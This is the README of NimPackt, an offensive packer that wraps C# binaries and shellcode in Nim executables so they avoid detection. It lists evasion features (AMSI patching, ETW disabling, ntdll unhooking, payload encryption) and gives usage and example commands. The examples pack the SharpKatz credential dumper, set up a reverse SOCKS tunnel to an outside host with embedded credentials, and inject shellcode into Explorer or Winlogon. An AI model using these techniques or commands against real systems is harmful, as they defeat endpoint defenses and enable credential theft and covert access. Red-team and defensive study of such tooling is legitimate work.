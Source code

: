 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim strenc nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim strenc nimcrypto
pip3 install pycryptodome argparse
```

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime
python3 ./NimPackt.py -v -e execute-assembly -i bins/SharpKatz-x64.exe

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread, hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -H

# Pack raw shellcode to execute in a newly spawned Explorer thread, enabling log messages in the compiled Nim binary
python3 NimPackt.py -r -i calc.bin -e shinject 

# Pack raw shellcode to execute in the existing Winlogon process
python3 NimPackt.py -r -E -i calc.bin -e shinject 
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will cause the process to crash in most instances. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting by performing calculations for 10-30s
- Provide option to pack as dll library
- A CobaltStrike plugin 🤗